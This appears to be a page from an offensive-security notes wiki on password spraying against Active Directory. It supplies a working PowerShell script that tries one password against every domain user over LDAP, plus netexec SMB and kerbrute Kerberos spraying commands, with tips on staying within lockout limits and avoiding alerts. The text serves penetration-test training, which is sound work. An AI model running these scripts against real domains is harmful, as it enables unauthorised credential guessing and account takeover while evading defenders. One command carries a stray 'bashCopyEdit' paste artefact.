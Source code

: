 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Passwords

Before attempting any password attacks, check the domain's **account lockout policy** to avoid locking out accounts or triggering alerts.

```powershell
# List the account policy
> net accounts
...
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
...
```

Based on the above policy, we can safely try **4 login attempts per user every 30 minutes**. This allows up to **192 attempts/user/day**.

> _Tools like_ [_`netexec`_](../../../tools/active-directory/netexec-cme.md#enumeration) _can be used to enumerate the domain's account lockout policy._

## Password Spraying

### LDAP-Based

This method leverages LDAP binding via PowerShell’s `.NET` libraries. It attempts authentication by trying to create an LDAP object — if it succeeds, the credentials are valid. This method is **stealthy**, no interactive log in, and **respects lockout policy**, but is **slow** and **limited to one password per run**.

{% code overflow="wrap" %}
```powershell
# Get the domain and PDC
$domain = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = $domain.PdcRoleOwner.Name
# Construct the LDAP path
$ldap = "LDAP://$PDC/DC=" + $domain.Name.Replace('.', ',DC=')
# Attempt authentication
$entry = New-Object System.DirectoryServices.DirectoryEntry($ldap, "pete", "Nexus123!")
$entry.distinguishedName  # Triggers authentication
```
{% endcode %}

If the password is invalid, it throws an error. If valid, it returns the DN. We can automate this with the following script which loops through AD users and reports valid logins.

{% code title="LDAPSpray.ps1" overflow="wrap" %}
```powershell
param(
    [string]$Password = "Nexus123!",
    [string]$Domain = ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).Name
)

Write-Host "[*] Starting LDAP password spray for domain: $Domain"
$PDC = ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner).Name
$LDAP = "LDAP://$PDC/DC=" + $Domain.Replace('.', ',DC=')

# Get all users from AD
$Searcher = New-Object DirectoryServices.DirectorySearcher
$Searcher.Filter = "(objectCategory=person)"
$Searcher.PageSize = 1000
$Searcher.PropertiesToLoad.Add("sAMAccountName") > $null
$Users = $Searcher.FindAll() | ForEach-Object { $_.Properties.samaccountname }

foreach ($User in $Users) {
    if ([string]::IsNullOrWhiteSpace($User)) { continue }

    try {
        $Entry = New-Object System.DirectoryServices.DirectoryEntry($LDAP, $User, $Password)
        $null = $Entry.distinguishedName  # Force bind/authentication
        Write-Host "[+] VALID: $User : $Password"
    } catch {
        Write-Host "[-] INVALID: $User"
    }
}

```
{% endcode %}

```powershell
> .\LDAPSpray.ps1 -Password "Nexus123!"
```

### SMB-Based

This method involves a full SMB session setup/teardown on each authentication attempt so it's **slow**, **noisy**, and **does not respect the lockout policy**. We can perform this attack using tools like `netexec`.

> _With `netxec`, if a sprayed password is valid_ _and the user is a `local administrator` on the target system, the `(Pwn3d!)` string will appear. This means that tools like `psexec`, `wmiexec`, or `secretsdump` can be used for lateral movement or privilege escalation._

{% code overflow="wrap" %}
```bash
$ nxc smb 192.168.177.0/24 -u pete -p 'Nexus123!' -d corp.com --continue-on-success
```
{% endcode %}

**Tips:**

* Use `--shares` or `--sessions` for post-auth enumeration.
* Use `--local-auth` if targeting local accounts.
* Log everything: `--output results.txt`.

### &#x20;Kerberos-Based

Uses Kerberos AS-REQs to test credentials. It's lightweight and fast — only 2 packets per attempt (UDP/88), making it ideal for stealth.

✅ _Extremely fast and quiet_\
❌ _Doesn’t respect lockout policies (but low risk)_

```bash
bashCopyEditkerbrute passwordspray -d corp.com usernames.txt "Nexus123!"
```

Valid logins return a TGT (AS-REP); invalid ones return a fast error. Use ANSI encoding in your input files to avoid weird issues.

***

#### 🔍 Summary Comparison

| Protocol | Noise | Lockout-Safe | Speed     | Notes                              |
| -------- | ----- | ------------ | --------- | ---------------------------------- |
| LDAP     | Low   | ✅ Yes        | Medium    | Scriptable, stealthy               |
| SMB      | High  | ❌ No         | Slow      | Reveals admin access (`Pwn3d!`)    |
| Kerberos | Low   | ❌ No         | Very Fast | UDP-based, great for fast spraying |
